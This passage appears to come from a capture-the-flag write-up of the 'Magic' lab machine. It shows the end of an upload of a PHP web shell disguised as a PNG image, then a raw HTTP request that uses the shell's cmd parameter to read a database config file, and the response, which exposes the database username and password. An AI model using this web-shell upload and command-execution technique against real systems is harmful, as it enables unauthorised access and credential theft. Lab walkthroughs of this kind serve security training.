     <!--    http://michaeldaw.org   2006    -->

    -----------------------------1971341748341881315972996739
    Content-Disposition: form-data; name="submit"

    Upload Image
    -----------------------------1971341748341881315972996739--

This "image" will be uploaded and we can then go to
`http://10.10.10.185/images/uploads/simple-backdoor2.php` to execute some
commands on the system.

We start enumerating and found a `db.php5` file containing the database
credentials `theseus:iamkingtheseus`.

    :::text
    GET /images/uploads/simple-backdoor2.php.png?cmd=cat+/var/www/Magic/db.php5 HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs
    Content-Length: 2


    HTTP/1.1 200 OK
    Date: Wed, 22 Apr 2020 12:32:22 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Vary: Accept-Encoding
    Content-Length: 961
    Connection: close
    Content-Type: text/html; charset=UTF-8

    <89>PNG
    ^Z

    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>
    class Database
    {
        private static $dbName = 'Magic' ;
        private static $dbHost = 'localhost' ;
        private static $dbUsername = 'theseus';
        private static $dbUserPassword = 'iamkingtheseus';

        private static $cont  = null;

        public function __construct() {
            die('Init function is not allowed');
        }

        public static function connect()
        {
            // One connection through whole application
            if ( null == self::$cont )
            {
                try
                {
                    self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
                }
                catch(PDOException $e)
                {
                    die($e->getMessage());
                }
            }
            return self::$cont;
        }
